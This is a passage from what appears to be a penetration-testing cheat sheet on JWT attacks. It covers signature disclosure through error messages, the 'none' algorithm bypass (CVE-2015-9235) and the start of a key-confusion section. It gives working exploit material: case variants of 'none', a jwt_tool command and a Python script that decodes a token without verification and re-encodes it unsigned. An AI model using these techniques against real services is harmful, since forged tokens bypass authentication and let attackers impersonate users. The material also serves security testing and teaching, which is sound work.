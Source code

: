 Send a JWT with an incorrect signature, the endpoint might respond with an error disclosing the correct one.

* [jwt-dotnet/jwt: Critical Security Fix Required: You disclose the correct signature with each SignatureVerificationException... #61](https://github.com/jwt-dotnet/jwt/issues/61)
* [CVE-2019-7644: Security Vulnerability in Auth0-WCF-Service-JWT](https://auth0.com/docs/secure/security-guidance/security-bulletins/cve-2019-7644)

```ps1
Invalid signature. Expected SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c got 9twuPVu9Wj3PBneGw1ctrf3knr7RX12v-UwocfLhXIs
Invalid signature. Expected 8Qh5lJ5gSaQylkSdaCIDBoOqKzhoJ0Nutkkap8RgB1Y= got 8Qh5lJ5gSaQylkSdaCIDBoOqKzhoJ0Nutkkap8RgBOo=
```


### JWT Signature - None Algorithm (CVE-2015-9235)

JWT supports a `None` algorithm for signature. This was probably introduced to debug applications. However, this can have a severe impact on the security of the application.

None algorithm variants:
* `none` 
* `None`
* `NONE`
* `nOnE`

To exploit this vulnerability, you just need to decode the JWT and change the algorithm used for the signature. Then you can submit your new JWT. However, this won't work unless you **remove** the signature

Alternatively you can modify an existing JWT (be careful with the expiration time)

* Using [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)
    ```ps1
    python3 jwt_tool.py [JWT_HERE] -X a
    ```

* Manually editing the JWT
    ```python
    import jwt

    jwtToken = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6InRlc3QiLCJpYXQiOiIxNTA3NzU1NTcwIn0.YWUyMGU4YTI2ZGEyZTQ1MzYzOWRkMjI5YzIyZmZhZWM0NmRlMWVhNTM3NTQwYWY2MGU5ZGMwNjBmMmU1ODQ3OQ'
    decodedToken = jwt.decode(jwtToken, verify=False)  					

    # decode the token before encoding with type 'None'
    noneEncoded = jwt.encode(decodedToken, key='', algorithm=None)

    print(noneEncoded.decode())
    ```


### JWT Signature - Key Confusion Attack RS256 to HS256 (CVE-2016-5431)
